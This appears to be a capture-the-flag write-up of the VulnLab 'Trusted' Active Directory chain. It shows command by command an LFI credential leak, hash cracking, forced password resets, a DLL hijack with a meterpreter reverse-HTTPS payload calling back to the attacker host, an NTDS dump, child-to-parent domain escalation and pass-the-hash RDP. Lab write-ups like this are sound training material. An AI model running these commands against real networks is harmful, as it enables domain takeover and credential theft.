

# Trusted

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Trusted** chain from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the chain.


Let’s start by scanning the chain.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 5985,49678,139,3389,636,49669,593,49664,9389,62936,49667,49677,464,3269,49666,49665,49687,88,445,47001,53,389,135,49672,53165,3268 --min-rate=1000 10.10.204.85
```



Unlike the normal boxes the chain have 2 initial IP so let’s scan the second IP

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned-86.txt -p 5985,49687,49677,53,59884,49666,49664,593,3389,47001,49668,636,63622,389,139,49672,49667,3306,135,443,445,9389,88,49665,49678,80,464 --min-rate=1000 10.10.204.86
```


Now let’s go FUZZ for interesting directory

```bash
ffuf -u "http://10.10.204.86/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```


Now let’s go and see what it have.


Now let’s start fuzz for any interesting files under this website

```bash
gobuster dir --url http://10.10.204.86/dev/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php
```


and we got the db.php file so let’s get it’s content from the website

```bash
https://10.10.204.86/dev/index.html?view=php://filter/read=convert.base64-encode/resource=db.php
```


notice that from the LFI we got the content of the db.php file so let’s decode it

```bash
echo "PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4=" | base64 -d
```


and we got the mysql password so let’s try to connect to it

```bash
mysql -h 10.10.204.86 -u 'root' -p 
```


and we logged in so let’s go and see the available tables

```bash
use news;
select * from users;
```


and we got the passwords so let’s try to crack them

```bash
hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt
```


> Notice that we got a password
> 

now let’s try to validate the password we have

```bash
nxc smb lab.trusted.vl -u 'rsmith' -p 'IHateEric2'
```


and it worked so let’s go and get bloodhound

```bash
bloodhound-python -ns 10.10.204.86 -d lab.trusted.vl -u rsmith -p IHateEric2 -c all --zip
```


now let’s go and open bloodhound and see if we have any interesting permissions


As we see rsmith can reset the password of ewalters so let’s go and reset it

```bash
net rpc password EWALTERS -U lab.trusted.vl/'rsmith'%'IHateEric2' -S 10.10.204.86
```


now let’s validate the password change

```bash
nxc smb lab.trusted.vl -u 'ewalters' -p 'remo123$'
```


and it did!

Now let’s see what ewalters can do


now we have RDP to the labdc

```bash
evil-winrm -i lab.trusted.vl -u ewalters -p remo123$
```


Now let’s go to the directory

```bash
cd c:\avtest
```


we got a readme so let’s read it

```bash
type readme.txt
```


> Notice that it say that this executable will run multiple times so let’s go and download it
> 

```bash
impacket-smbserver remo $(pwd) -smb2support
```


now let’s see if we have the exe

```bash
KasperskyRemovalTool.exe
```


and we did

After reversing the application we found that there is a DLL named KasperskyRemovalToolENU.dll is not found


Now let’s create a dll using msfvenom

```bash
windows/meterpreter/reverse_https LHOST=10.8.5.233 LPORT=1337 EXITFUNC=thread -f dll -o KasperskyRemovalToolENU.dll 
```


now let’s transfer it to the machine

```bash
copy \\10.8.5.233\remo\KasperskyRemovalToolENU.dll KasperskyRemovalToolENU.dll
```


Now let’s go and open a handler

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost tun0
set exitfunc thread
set exitfunc thread
```


now let’s wait to get a shell


now we go shell as cpowers let’s see his groups

```bash
net user cpowers
```


he is a member of the domain admins so let’s add rsmith to the domain admins

```bash
net group "Domain Admins" rsmith /add /domain
```


now let’s use secrets dump to dump the ntds.dit

```bash
impacket-secretsdump lab.trusted.vl/rsmith:'IHateEric2'@10.10.204.86
```


now let’s try to winrm as administrator

```bash
evil-winrm -i lab.trusted.vl -u administrator -H 75878369ad33f35b7070ca854100bc07
```


Now let’s enumerate the domain trust

```bash
Get-DomainTrust
```


> Notice that our domain is trusted by a domain named trusted.vl so we can perform SID History and get Enterprise admin privileges
> 

Now let’s use raiseChild from impacket toolkit to retrieve the hash of the enterprise administrator 

```bash
impacket-raiseChild lab.trusted.vl/administrator:'' -hashes :75878369ad33f35b7070ca854100bc07
```


Now let’s go and login with the enterprise admin on the domain controller

```bash
evil-winrm -i trusted.vl -u administrator -H 15db914be1e6a896e7692f608a9d72ef
```


now let’s navigate to the desktop and see the flag

```bash
cd C:\Users\Administrator\desktop
```


Now to get the root let’s edit the registry to allow RDP using the hash

```bash
nxc smb trusted.vl -u "administrator" -H "15db914be1e6a896e7692f608a9d72ef" -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```


Now let’s RDP

```bash
xfreerdp /u:administrator /pth:15db914be1e6a896e7692f608a9d72ef /d:trusted.vl /v:10.10.204.85 /cert-ignore /tls-seclevel:0
```


Amazing we got the root flag 🥳


That’s it for the **Trusted** chain! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX